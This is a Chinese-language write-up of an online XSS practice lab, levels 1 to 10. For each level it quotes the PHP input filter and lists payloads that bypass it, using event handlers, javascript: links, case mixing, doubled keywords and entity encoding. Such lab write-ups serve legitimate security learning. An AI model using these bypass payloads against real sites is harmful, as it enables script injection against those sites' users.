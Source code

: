 # xss平台练习

> 来源为一个在线靶场：
>
> http://test.ctf8.com/level1.php?name=test

## level1

<script>alert('xss')</script>

## level2

过滤php函数

(PHP 4, PHP 5, PHP 7)

htmlspecialchars — 将特殊字符转换为 HTML 实体

等于<不能用，这时候一种方法是黑名单绕过，就是不使用被过滤的符号，使用js的事件：

![image-20200915193548678](未命名.assets/image-20200915193548678.png)

![image-20200915194446612](未命名.assets/image-20200915194446612.png)

Payload:

"><script>alert(1)</script>

这样value=" "，不会检查我们的弹窗代码

![image-20200915201010853](未命名.assets/image-20200915201010853.png)

## level3

![image-20200915201317764](未命名.assets/image-20200915201317764.png)

Payload: 

' onmouseover=alert(1)//

单引号用来闭合，

### 定义和用法

onmouseover 事件会在鼠标指针移动到指定的对象上时发生。这里指定的就是搜索框了。

## less4

跟3一样，不过要用""进行闭合。

## less5

~~~javascript
$str = strtolower($_GET["keyword"]); //将字符串转化为小写，所以大小写不能绕过
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
~~~

对输入进行了过滤。

但是没有对<>进行过滤，所以我们可以使用伪协议来进行构造

payload:

~~~
"><iframe src=javascript:alert(1)>
"> <a href="javascript:alert(1)">bmjoker</a>
"> <a href="javascript:%61lert(1)">bmjoker</a> //
~~~

iframe 元素会创建包含另外一个文档的内联框架（即行内框架）。

其中第二第三个payload是定义了一个链接，在访问时触发js代码。

## level6

~~~php
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
~~~

这个是它的过滤，过滤很严格，但是发现没有过滤大小写，那么

Payload:

~~~
"> <Script>alert(1)</script> //
"> <img Src=x OnError=alert(1)> //
"><a HrEf="javascript:alert(1)">bmjoker</a>//
"><svg x=" " Onclick=alert(1)>
"><ScriPt>alert(1)<sCrIpt>"
" OncliCk=alert(1) //
~~~

前几关的payload,改变一些大小写就可以使用了。

## level7

~~~php
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
~~~

这个又加了大小写的限制，那么

Payload:

~~~
"><sscriptcript>alert(1)</sscriptcript>
"><a hrhrefef=javascriscriptpt:alert(1)>bmjoker</a>
~~~

我好奇的是标签重复也可以使用吗？

后来才发现script标签被替换成空了，所以正好还是一个这样的标签，最后就成功弹出了。

## level8

![image-20200916210303331](xss平台练习.assets/image-20200916210303331.png)

实体字符绕过：

~~~
javascrip&#x74;:alert(1)
javasc&#x72;ipt:alert`1` 
javasc&#x0072;ipt:alert`1`
~~~

不过值得注入的地方是`竟然可以绕过括号。

## level9

~~~php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
if(false===strpos($str7,'http://')) //这个是新加的，但是没所谓
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
~~~

> <script>alert('xss')</script>

这个直接全部绕过了，有点蒙。。。然后仔细看了源码发现：

![image-20200916211326753](xss平台练习.assets/image-20200916211326753.png)

Emmmm....

不过正确的绕过方式如下：

~~~
javascrip&#x74;:alert(1)//http://xxx.com //利用注释
javascrip&#x74;:%0dhttp://xxx.com%0dalert(1) //不利用注释
javascrip&#x74;:%0ahttp://xxx.com%0daalert(1) //不利用注释
~~~

## level10

这次加强了对标签的检查：

~~~
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
~~~

![image-20200916213831898](xss平台练习.assets/image-20200916213831898.png)

我们从这里就可以看到，其实是把输入框给隐藏了，其实还是有输入框的。

Pyload:

~~~
keyword = test&t_sort="type="text"onclick="alert(1)
keyword = test&t_sort="type="text" onmouseover="alert(1)
keyword = test&t_sort="type="text" onmouseover=alert`1`
~~~

我们通过闭合然后是的输入框显示出来，然后用js时间就可以出发xss

